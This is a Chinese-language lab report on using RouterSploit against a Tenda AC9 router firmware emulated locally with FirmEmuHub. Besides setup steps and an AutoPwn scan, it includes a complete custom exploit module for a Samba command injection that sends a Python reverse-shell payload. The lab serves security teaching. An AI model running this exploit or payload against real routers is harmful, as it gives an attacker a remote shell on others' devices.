# 第九章：RouterSploit 工具使用

## 一、实验目的

本次实验以 Ubuntu 虚拟机为实验平台，围绕 RouterSploit 工具对 IoT 设备漏洞进行检测与利用。通过实验，掌握 RouterSploit 框架的基本使用方法，理解其在路由器、摄像头等嵌入式设备安全测试中的作用，并能够结合 IoT 固件仿真环境完成漏洞扫描、漏洞识别和漏洞利用验证。

通过本次实验，需要达到以下目的：
- 熟悉 RouterSploit 的安装、启动和模块加载方法，了解其常用命令和基本操作流程；
- 学习如何使用 FirmEmuHub 搭建 IoT 设备固件模拟环境，并通过 Web 页面访问目标设备服务；
- 结合 RouterSploit 的自动扫描模块和自定义漏洞利用模块，对目标路由器中的命令注入漏洞进行检测与利用，验证反向 shell 获取过程，从而加深对 IoT 设备安全漏洞形成原因、攻击流程和防护思路的理解。

## 二、实验环境

本次实验在 Ubuntu 虚拟机中完成，主要使用 Linux 系统下的命令行环境进行操作。实验目标为通过 FirmEmuHub 仿真运行的 IoT 路由器固件环境，攻击测试过程在虚拟机和 Docker 容器环境中完成。

实验环境主要包括以下内容：

| 环境类别   | 具体内容                   |
| ------ | ---------------------- |
| 操作系统   | Ubuntu Linux 虚拟机       |
| 固件仿真工具 | FirmEmuHub             |
| 漏洞测试工具 | RouterSploit           |
| 运行环境   | Python3、pip3           |
| 容器环境   | Docker                 |
| 网络工具   | 浏览器、nc、curl、基础网络调试命令   |
| 实验目标   | IoT 路由器固件模拟环境中的 Web 服务 |

在实验过程中，首先需要保证 Ubuntu 虚拟机能够正常联网，并安装 Python3、pip3、git、Docker 等基础工具。随后通过 FirmEmuHub 启动指定 IoT 固件的模拟环境，并查看其映射出的 Web 服务端口，确认浏览器能够正常访问目标路由器页面。在此基础上，安装并启动 RouterSploit 框架，配置目标 IP、端口以及反向连接所需的本地监听地址和端口，完成漏洞扫描与利用。

## 三、实验原理与基础知识

* **RouterSploit 工具原理**
  RouterSploit 是一个面向路由器、摄像头等 IoT 设备的安全测试框架，主要用于嵌入式设备的漏洞扫描和漏洞利用。本实验中使用 RouterSploit 对仿真路由器进行检测，并通过相应模块验证漏洞是否存在。

* **FirmEmuHub 固件仿真原理**
  FirmEmuHub 可以在虚拟机和 Docker 环境中模拟运行 IoT 设备固件，使实验者能够在本地访问目标设备的 Web 管理页面，从而在不使用真实硬件的情况下完成安全测试。

* **命令注入漏洞原理**
  命令注入漏洞通常是由于程序没有对用户输入进行严格过滤，导致攻击者可以将恶意系统命令拼接到正常参数中，并使目标设备执行该命令。本实验通过构造特定 payload 触发目标接口中的命令执行问题。

* **反向 shell 验证原理**
  反向 shell 是验证漏洞利用是否成功的重要方式。攻击者先在本机开启监听端口，再向目标设备发送包含反向连接命令的 payload。如果目标设备成功执行命令，就会主动连接攻击者主机，从而获得目标设备的 shell。

* **实验整体思路**
  本实验先使用 FirmEmuHub 启动 IoT 固件模拟环境，并通过浏览器确认目标 Web 服务正常运行；随后使用 RouterSploit 对目标设备进行漏洞扫描；最后加载漏洞利用模块发送 payload，通过是否获得反向 shell 来判断漏洞利用是否成功。


## 四、实验内容

### 0. 实验环境准备

#### 0.1 创建实验目录并获取 RouterSploit 源码

在 Ubuntu 虚拟机中创建实验目录并进入：

```bash
mkdir ~/chap0x09
cd ~/chap0x09
```

从 GitHub 获取 RouterSploit 源码：

```bash
git clone https://github.com/threat9/routersploit
cd routersploit
```



#### 0.2 配置 Python 虚拟环境与安装依赖

由于 Ubuntu 系统限制，需要使用 Python 虚拟环境：

```bash
python3 -m venv venv
source venv/bin/activate
```

在虚拟环境中升级 pip 并安装项目依赖：

```bash
pip install --upgrade pip
pip install -r requirements.txt
```

安装过程中会自动下载 cryptography、paramiko、requests 等依赖库。




#### 0.3 启动 RouterSploit 框架

执行以下命令启动框架：

```bash
python rsf.py
```

成功进入 RouterSploit 交互界面：

```text
rsf >
```




### 1. 启动模拟环境

本实验使用开源工具 FirmEmuHub 对 IoT 路由器固件进行仿真，实验对象为 `BM-2024-00012`。

#### 1.1 准备 FirmEmuHub 项目

首先在 `chap0x09` 目录下解压并进入 FirmEmuHub 项目目录，确认目录中包含 `Benchmark`、`emulation.py`、`requirements.txt` 等文件，说明仿真工具文件准备完成。

```bash
cd ~/chap0x09/FirmEmuHub-main
ls
```



#### 1.2 安装仿真依赖

在 Python 虚拟环境中安装 FirmEmuHub 运行所需依赖。安装过程中，系统自动下载并安装 `PyYAML`、`requests`、`urllib3`、`certifi` 等依赖库，为后续启动仿真脚本提供运行环境。

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```



#### 1.3 启动固件仿真

依赖安装完成后，执行以下命令启动 `BM-2024-00012` 固件环境：

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00012
```

启动过程中，FirmEmuHub 自动调用 Docker 构建仿真镜像，并基于 `fitzbc/fat_ubuntu1604:v6` 创建运行环境。构建过程包括添加固件文件、配置网络接口、写入启动脚本、配置 QEMU 运行环境、开放 80 端口等步骤。



Docker 镜像构建完成后，系统继续启动固件容器。终端输出显示镜像成功构建并完成标记，容器 `bm-2024-00012_fo1c4f` 成功启动，服务也成功运行。最终系统提示固件仿真环境运行在本地映射端口 `32769` 上。

```text
Successfully built 0d68a34bd781
Successfully tagged bm-2024-00012:latest
Firmware container 'bm-2024-00012_fo1c4f' started successfully.
Service started successfully.
The firmware emulation is running at 0.0.0.0:32769
```



#### 1.4 访问目标 Web 服务

根据终端输出的端口信息，在浏览器中访问如下地址：

```text
http://127.0.0.1:32769/main.html
```

成功进入 Tenda 路由器 Web 管理界面，页面中可以看到网络状态、外网设置、无线设置、访客网络、家长控制、VPN 服务、USB 应用、高级功能和系统管理等功能菜单，同时页面显示路由器局域网 IP 为 `192.168.0.1`，说明 IoT 固件 Web 服务已经成功启动并可以正常访问。



### 2. 使用 RouterSploit 进行漏洞扫描

在完成 FirmEmuHub 固件仿真环境启动后，本实验继续使用 RouterSploit 对目标 IoT 路由器进行漏洞扫描。由于 RouterSploit 默认模块中不包含本实验所需的 Tenda AC9 对应漏洞模块，因此需要先创建自定义漏洞模块。

#### 2.1 创建自定义漏洞模块文件

首先在 RouterSploit 的漏洞利用模块目录下新建 Tenda 相关目录，并创建自定义漏洞模块文件 `ac9_samba_rce.py`。

```bash
cd ~/chap0x09/routersploit
source venv/bin/activate
ls
mkdir routersploit/modules/exploits/routers/tenda
nano routersploit/modules/exploits/routers/tenda/ac9_samba_rce.py
```



#### 2.2 编写漏洞利用代码

将 Tenda AC9 Samba 命令注入漏洞利用代码写入 `ac9_samba_rce.py` 文件中。该模块继承 RouterSploit 中的 `HTTPClient`，通过设置目标地址、HTTP 端口、本机反连地址、反连端口以及漏洞路径 `/goform/SetSambaCfg`，构造包含反向 Shell 的 Payload，并通过 HTTP POST 请求发送至目标设备，用于检测和利用 Samba 配置中的命令注入漏洞。

```python
#!/usr/bin/env python3

from routersploit.core.exploit import *
from routersploit.core.http.http_client import HTTPClient


class Exploit(HTTPClient):
    __info__ = {
        "name": "Router Samba Command Injection",
        "description": "Module exploits command injection vulnerability in router's Samba configuration.",
        "authors": [
            "Your Name",
        ],
        "references": [
            "https://example.com/cve-reference",
        ],
        "devices": [
            "Vulnerable Router Models",
        ],
    }

    target = OptIP("", "Target IPv4 or IPv6 address")
    port = OptPort(80, "Target HTTP port")
    lhost = OptIP("", "Local IP for reverse connection")
    lport = OptPort(8888, "Local port for reverse connection")
    path = OptString("/goform/SetSambaCfg", "Path to vulnerable endpoint")

    def run(self):
        if not self.check():
            return

        print_status("Sending payload to establish reverse shell...")

        reverse_shell = f";python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{self.lhost}\",{self.lport}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"

        data = {
            "password": "111111",
            "premitEn": "0",
            "internetPort": "21",
            "action": "del",
            "usbName": reverse_shell,
            "guestpwd": "guest",
            "guestuser": "guest",
            "guestaccess": "r",
            "fileCode": "UTF-8"
        }

        headers = {"Cookie": "password=lqetgb"}

        response = self.http_request(
            method="POST",
            path=self.path,
            data=data,
            headers=headers
        )

        if response is None:
            print_error("Exploit failed - device did not respond")
        elif response.status_code == 200:
            print_success("Payload sent successfully, check your listener for shell connection")
        else:
            print_error(f"Exploit failed - received HTTP {response.status_code}")

    def check(self):
        response = self.http_request(
            method="GET",
            path="/"
        )

        if response is None:
            print_error("Target is not responding")
            return False

        print_status("Target is responding")
        print_status("This module does not verify vulnerability, it only attempts exploitation")
        return True
```



#### 2.3 加载 AutoPwn 自动扫描模块

漏洞模块创建完成后，在 RouterSploit 项目目录下启动框架：

```bash
python rsf.py
```

启动成功后，终端显示 RouterSploit 的 ASCII 标识和框架信息，可以看到当前版本为 `3.4.7`，并显示 Exploits、Scanners、Creds、Payloads 等模块数量，说明 RouterSploit 框架已经正常启动。



进入 RouterSploit 交互界面后，使用自动扫描模块 `scanners/autopwn`，该模块可以根据目标服务自动尝试匹配 RouterSploit 中的漏洞模块。首先加载 AutoPwn 模块，并查看可配置参数：

```text
use scanners/autopwn
show options
```

从输出结果可以看到，AutoPwn 模块需要设置目标地址 `target`，同时可以配置 HTTP、FTP、SSH、Telnet、SNMP 等服务扫描选项。默认情况下，HTTP 服务扫描处于开启状态，线程数为 8。



#### 2.4 设置扫描目标并执行扫描

由于本实验中 FirmEmuHub 与 RouterSploit 均运行在同一台 Ubuntu 虚拟机中，因此目标地址使用本机回环地址 `127.0.0.1`。根据前一步 FirmEmuHub 的启动结果，路由器 Web 服务被映射到本地端口 `32769`，因此设置扫描目标如下：

```text
set target 127.0.0.1
set http_port 32769
```

设置完成后，终端显示 `target => 127.0.0.1` 和 `http_port => 32769`，说明扫描目标参数配置成功。



随后执行扫描命令：

```text
run
```

RouterSploit 开始对目标设备进行自动漏洞扫描。扫描过程中，AutoPwn 尝试匹配多个路由器、摄像头及通用网络设备漏洞模块，并对目标服务的可利用性进行判断。扫描结果显示，虽然部分模块无法验证可利用性或不适用于当前目标，但 RouterSploit 成功识别出目标设备存在 Tenda AC9 Samba 命令注入漏洞，结果如下：

```text
[+] 127.0.0.1 Device is vulnerable:

Target      Port      Service      Exploit
------      ----      -------      -------
127.0.0.1   32769     http         exploits/routers/tenda/ac9_samba_rce
```

